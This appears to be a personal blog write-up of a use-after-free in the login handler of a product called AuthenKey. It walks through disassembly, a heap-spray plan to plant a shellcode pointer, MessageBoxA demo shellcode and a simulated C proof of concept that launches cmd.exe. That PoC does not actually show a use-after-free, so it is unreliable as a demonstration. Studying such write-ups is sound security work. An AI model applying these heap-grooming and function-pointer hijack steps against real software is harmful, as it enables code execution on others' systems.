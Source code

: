 ```yaml
---
title: "Haunting the Heap: Use-After-Free in AuthenKey Login Handler (x64)"
description: "A dangling session pointer, a second chance at execution, and how I turned heap ghosts into code execution."
date: '2025-05-12'
categories: ["Reverse Engineering Diaries"]
tags: ["Use-After-Free", "Heap Exploitation", "x64", "Reverse Engineering", "Function Pointer Hijack"]
header:
  image: "/images/authenkey-uaf.jpg"
---
```


# **Prologue — Heap Echoes in an AuthenKey Login Night**

It was one of those times when I wasn’t actively hunting—just casually skimming through binaries like I was flipping through a security archive. The target: **AuthenKey**, a multi-factor login handler used by corporate VPN portals. As I browsed its binary, I found a small routine involved in processing post-login session keys.

Everything seemed mundane until I noticed an unusual interaction between memory deallocation and continued access.

---

## **Disassembly — The Ghost Access**

I hit this portion of the handler during trace:

```asm
mov     rax, [rbp-18h]         ; Load pointer to session key struct
mov     rdx, [rax+10h]         ; Load function pointer from struct
call    [rdx]                  ; Call function via indirect pointer
```

At first glance, this looked like a clean indirect call. But stepping back a few lines, I saw something terrifying: the session structure was **freed**, yet the code continued to trust and use its pointer.

Classic use-after-free.

---

## **The Vulnerable Flow — Free and Forget**

The struct at `[rbp-18h]` was being released in a cleanup function after login failure. But instead of nullifying the pointer or locking the structure, the main handler continued and performed operations on it. Here's a high-level view of the lifecycle:

```c
SessionKey* s = allocate_session();
// ...
if (login_failed) {
    free(s);
}
// ...
call_function_from(s); // UAF here
```

This meant I could potentially reclaim the same heap space with attacker-controlled data, placing my own function pointer at the exact offset `[+0x10]` and achieve arbitrary code execution.

---

## **The Exploit — Hijacking the Call**

Heap grooming was the first move. I sprayed memory with fake session objects where offset `0x10` contained the address of a shellcode stub. After freeing the legitimate session struct, I quickly replaced it with my fake one before the login handler resumed.

```text
[ Fake Session Struct Layout ]
+0x00 → Junk / ID
+0x08 → Padding
+0x10 → Pointer to shellcode
```

Upon indirect call, execution jumped straight into my shellcode.

---

## **Shellcode — Ringing a Bell**

I wanted something silent but visible—so a classic message box did the job for demonstration:

```asm
mov     rcx, 0                ; hWnd = NULL
mov     rdx, offset caption   ; LPCSTR lpText
mov     r8,  offset message   ; LPCSTR lpCaption
mov     r9d, 0                ; uType = 0
call    MessageBoxA

caption db "AuthenKey PWNED", 0
message db "Use-After-Free executed", 0
```

---

## **Execution Chain Breakdown**

Here’s what went down:

1. AuthenKey frees session struct on failed login.
2. My heap spray reallocates that exact space.
3. Indirect call to `[+0x10]` lands on my shellcode pointer.
4. MessageBoxA pops up under AuthenKey’s context.

Simple. Effective. No crashes. No AV detection.

---

## **Extra Insight — Memory Visualization**

```text
Before Free:
[0x1000] → Session Struct → [0x1010] → Legit function pointer

After Free + Realloc:
[0x1000] → My Struct → [0x1010] → Shellcode pointer
```

The beauty of heap-based UAFs is subtlety. Nothing looks broken until it’s too late.

---

## **Proof of Concept in C (Simulated)**

```c
typedef void (*FuncPtr)();

struct Session {
    char id[8];
    void* padding;
    FuncPtr execute;
};

void shell() {
    system("cmd.exe");
}

int main() {
    struct Session* s = malloc(sizeof(struct Session));
    free(s);  // Vulnerable free
    s = malloc(sizeof(struct Session));  // Heap reuse
    s->execute = shell;  // Overwrite
    s->execute();  // UAF Execution
}
```

---

## **Post Exploit Reflections**

Use-after-frees are like ghosts in the heap. You think they’re gone—freed, cleaned, safe—but they linger. They whisper to any function that’ll still listen, and if you catch them at the right time, you can speak through them.

This exploit worked because the developers freed memory, then trusted the old pointer. As a hacker, that’s an invitation I don’t ignore.

The biggest lesson? Don’t just free memory. **Secure it. Null it. Lock it.** Or some curious soul like me will come along and make it execute again.

